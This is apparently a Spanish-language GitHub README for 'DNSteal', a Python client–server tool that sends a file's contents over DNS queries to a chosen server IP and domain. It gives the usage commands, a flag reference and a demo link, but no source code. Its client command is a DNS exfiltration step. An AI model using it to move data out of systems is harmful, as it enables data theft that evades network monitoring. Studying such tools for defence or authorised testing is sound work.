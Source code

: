 # DNSteal

## Uso

#### 💻 Ejecutar el programa

* **Server**

```bash
python3 DNS_Server.py
```

<img src="/media/Server.png" width="300" title="use example">

* **Client**

```bash
python3 DNS_Client.py -s Server_IP -f File
```

<img src="./media/Client.png" width="300" title="use example">

### 🚩 Flags del Programa

* **Server**

```bash
-s / --server: [Opcional] IP que quieras para el servidor. Predet = 0.0.0.0
-d / --domain: [Opcional] Dominio que desea utilizar. Predet = secreto.com.
-i / --ip: [Opcional] IP de respuesta falsa. Predet = 127.0.0.1
-p / --port: [Opcional] Puerto que desea utilizar. Predet = 53
```
* **Client**

```bash
-s / --server: [Requerido] IP a la que desea conectarse
-f / --file: [Requerido] Archivo que contiene el mensaje
-t / --time: [Opcional] Tiempo que las solicitudes esperan una respuesta del servidor. Predet = 5
-d / --domain: [Opcional] Dominio que desea utilizar. Predet = secreto.com.
```

### :movie_camera: Demostración de Uso

https://user-images.githubusercontent.com/35707527/210063728-522d5e92-1198-4cfb-9cf6-34a1e27cd88e.mp4
